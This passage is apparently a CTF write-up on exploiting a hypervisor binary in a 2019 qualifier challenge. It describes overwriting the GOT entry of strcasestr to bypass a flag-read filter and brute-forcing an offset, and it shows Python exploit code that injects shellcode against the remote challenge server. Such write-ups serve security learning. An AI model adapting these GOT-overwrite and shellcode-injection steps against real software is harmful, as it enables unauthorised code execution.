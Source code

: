 Also, I have patched out function `drop_privs`, which is not useful and with
this function we need `root` privilege to run the binary, which I don't have
in our lab machine.

### Exploit Hypervisor

After some debugger, I found that even if the PIE is enabled, the offset from
`vm_mem` to program base is constant. This is great: we can use OOB to leak
and rewrite `got` table in the binary and hijack control flow. What I am
thinking about is to rewrite `strcasestr` to something that will return `0`,
which enables us to read the flag.

```c  
case 'f':  
 v12 = v3;  
 v13 = (char *)vm_mem + v22;  
 if ( strcasestr((const char *)vm_mem + v22, "flag") )  
 {  
   printf("hypervisor blocked read of %s\n", v13);  
 }  
 else  
 {  
   v14 = ReadFile(0LL, v13, (__int64 *)&v21);  
   write(1, v14, v21);  
 }  
```

Initially I was thinking about `malloc`, which should returns `null` when the
size(`vm_mem + v22`) is too big, but this does not seem work and I am not sure
why; then I found `atoi` works fine because `atoi("flag")` returns 0.

However, even if in the same machine the offset from `vm_mem` to program base
is constant, in the remote machine that offset is different from the local
one. I realized this when I run this program on different MacOS machines
(thanks @[PK398](https://github.com/PK398) for providing his MacOS machine
that helps my analysis :D). So, I tried to brute force to find the correct
offset.The method to execute shellcode is same as the technique used to modify
`"honcho"` global string, but this time we change the codes in handler of
`export` command (this is chosen because codes here are long, so less likely
to rewrite something that should not be modified).

```python  
def rce(sh,shellcode):  
	export_handler = 0xC43  
	export(sh, str(7) * l, 'A' * (l+1+3) + p16(export_handler))  
	export(sh, '8' * l, (val_len(l) - (l+1) - 2) * '8' + '$' + '7' * l)  
	no_zero(shellcode)  
	export(sh, '0' * l, shellcode)  
	sh.send("export ")  
def leak_prog(off):  
	sh = remote("rtooos.quals2019.oooverflow.io", 5000)  
	img_addr = (-(0x7966a)+off) & 0xffffffffffffffff

	allocate_pre(sh)

	puts = 0x76  
	read = 0x69  
	#asm("this: jmp this")  
	shellcode = '''  
	mov rdi,%s;  
	push 0x41;  
	pop rsi;  
	sub rdi,rsi;  
	xor rax,rax;  
	mov al,0x76;  
	call rax;  
```